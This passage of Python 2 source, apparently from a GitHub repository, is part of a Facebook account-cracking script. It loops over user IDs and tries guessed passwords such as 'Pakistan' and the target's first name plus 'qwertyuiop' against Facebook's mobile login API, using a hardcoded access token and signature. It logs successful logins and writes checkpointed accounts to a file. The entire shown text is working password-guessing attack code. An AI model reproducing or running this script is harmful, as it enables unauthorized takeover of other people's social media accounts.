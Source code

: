 									cek.write(user+"|"+pass3+"\n")

									cek.close()

									cekpoint.append(user+pass3)

								else:

									pass4 = 'Pakistan'

									data = urllib.urlopen("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email="+(user)+"&locale=en_US&password="+(pass4)+"&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6")

									q = json.load(data)

									if 'access_token' in q:

										print '\x1b[1;96m[\x1b[1;92mSuccessful\x1b[1;96m]\x1b[1;97m ' + user + ' \x1b[1;96m|\x1b[1;97m ' + pass4

										oks.append(user+pass4)

									else:

										if 'www.facebook.com' in q["error_msg"]:

											print '\x1b[1;96m[\x1b[1;93mCheckpoint\x1b[1;96m]\x1b[1;97m ' + user + ' \x1b[1;96m|\x1b[1;97m ' + pass4

											cek = open("out/checkpoint.txt", "a")

											cek.write(user+"|"+pass4+"\n")

											cek.close()

											cekpoint.append(user+pass4)

										else:

											pass5 = b['first_name'] + 'qwertyuiop'

											data = urllib.urlopen("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email="+(user)+"&locale=en_US&password="+(pass5)+"&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6")

											q = json.load(data)

											if 'access_token' in q:

												print '\x1b[1;96m[\x1b[1;92mSuccessful\x1b[1;96m]\x1b[1;97m ' + user + ' \x1b[1;96m|\x1b[1;97m ' + pass5

												oks.append(user+pass5)

											else:

												if 'www.facebook.com' in q["error_msg"]:

													print '\x1b[1;96m[\x1b[1;93mCheckpoint\x1b[1;96m]\x1b[1;97m ' + user + ' \x1b[1;96m|\x1b[1;97m ' + pass5

													cek = open("out/checkpoint.txt", "a")
